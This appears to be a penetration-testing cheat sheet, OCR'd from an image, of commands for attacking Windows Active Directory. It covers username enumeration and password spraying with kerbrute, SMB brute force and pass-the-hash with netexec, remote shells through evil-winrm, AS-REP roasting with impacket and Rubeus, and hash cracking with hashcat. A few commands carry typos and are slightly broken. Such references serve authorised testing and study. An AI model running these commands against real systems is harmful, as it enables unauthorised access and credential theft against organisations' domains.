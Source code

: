 #### Kerbrute

```
kerbrute userenum -d {domain} --dc {ip} /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 100
kerbrute passwordspray -d {domain} --dc {ip} {username.txt} "password"
```


#### netexec

Password Policies:
```
netexec smb {ip} --pass-pol
```

Bruteforce:
```
netexec smb {ip} -u {username/list} -p '{password/list}' -d {domain}
```

With NTLM hash:
```
netexec smb {ip/ips} -u {username} -d {domain name} -H {hash}
```

Check LDAP signing:
```
netexec ldap {ip} -u user -p pass --kdcHost {dc_ip} -M ldap-checker
```

Check user descriptions:
```
netexec ldap {ip} -u user -p pass --kdc-host {dc_ip} -M -get-desc-users
```
#### evil-winrm
```
evil-WinRM -i {target_ip} -u {username} -p {password}
```

With hash:
```
evil-winrm -i {ip} -u {user} -H '{NT hash}'
```

#### Roasting
AS-REQ:
```
Anonymous:
impacket-GetNPUsers -request -dc-ip {dc ip} -usersfile users.txt {domain}/ -no-pass

impacket-GetNPUsers -dc-ip {dc ip} -request -outputfile hashes.asreproast {domain/user}

Windows:
.\Rebeus.exe asreproast /nowrap
```
**Hashcat grep mode for Kerberos AS-REP: 18200**
```
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rokcyou.txt --force
```
